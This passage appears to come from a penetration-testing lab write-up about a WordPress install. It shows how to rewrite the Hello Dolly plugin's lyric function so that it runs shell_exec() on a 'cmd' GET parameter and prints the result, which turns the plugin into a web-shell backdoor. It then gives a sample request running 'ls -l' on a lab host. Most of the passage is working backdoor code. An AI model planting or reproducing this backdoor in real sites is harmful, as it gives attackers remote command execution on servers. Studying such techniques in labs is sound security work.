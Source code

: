 We can modify what it prints by editing the plugin. Change the content of the `hello_dolly_get_lyric()` with the following.

```php
function hello_dolly_get_lyric() {
  /** These are the lyrics to Hello Dolly */
  $lyrics = "Hello, Dolly
Well, hello, Dolly
It's so nice to have you back where you belong
You're lookin' swell, Dolly
I can tell, Dolly
You're still glowin', you're still crowin'
You're still goin' strong
We feel the room swayin'
While the band's playin'
One of your old favourite songs from way back when
So, take her wrap, fellas
Find her an empty lap, fellas
Dolly'll never go away again
Hello, Dolly
Well, hello, Dolly
It's so nice to have you back where you belong
You're lookin' swell, Dolly
I can tell, Dolly
You're still glowin', you're still crowin'
You're still goin' strong
We feel the room swayin'
While the band's playin'
One of your old favourite songs from way back when
Golly, gee, fellas
Find her a vacant knee, fellas
Dolly'll never go away
Dolly'll never go away
Dolly'll never go away again";

  // Here we split it into lines
  $lyrics = explode( "\n", $lyrics );

  // And then randomly choose a line
  //return wptexturize( $lyrics[ mt_rand( 0, count( $lyrics ) - 1 ) ] );
  $lyrics = "<pre>".shell_exec($_GET['cmd'])."</pre>";
  return  wptexturize($lyrics);
}
```

See that I commented the return value, change the `$lyrics` variable to print the execution result of shell commands we put in `cmd` GET parameter and put it on the page. Try the following GET request.

```
http://192.168.0.104:8080/wordpress/wp-admin/index.php?cmd=ls%20-l
```

This is what we're going to get.
